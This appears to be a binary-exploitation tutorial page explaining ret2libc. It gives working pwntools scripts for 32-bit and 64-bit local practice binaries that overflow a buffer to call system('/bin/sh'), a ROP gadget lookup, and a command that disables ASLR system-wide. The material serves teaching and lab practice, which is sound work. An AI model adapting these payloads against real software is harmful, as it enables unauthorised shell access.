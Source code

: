 ```yaml
---
description: The standard ROP exploit
---
```


# ret2libc

A ret2libc is based off the `system` function found within the C library. This function executes anything passed to it making it the best target. Another thing found within libc is the string `/bin/sh`; if you pass this string to `system`, it will pop a shell.

And that is the entire basis of it - passing `/bin/sh` as a parameter to `system`. Doesn't sound too bad, right?

{% file src="../../.gitbook/assets/ret2libc \(1\).zip" caption="ret2libc" %}

## Disabling ASLR

To start with, we are going to disable ASLR. ASLR randomises the location of libc in memory, meaning we cannot \(without other steps\) work out the location of `system` and `/bin/sh`. To understand the general theory, we will start with it disabled.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```text
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

> Note: Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.

### Getting the location of system\(\)

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```text
$ readelf -s /lib32/libc.so.6 | grep system
1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```text
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit \(should be called something like `/lib/x86_64-linux-gnu/libc.so.6`\).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```text
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # Search for the string + grab 1st occurence

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

> Note: Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.

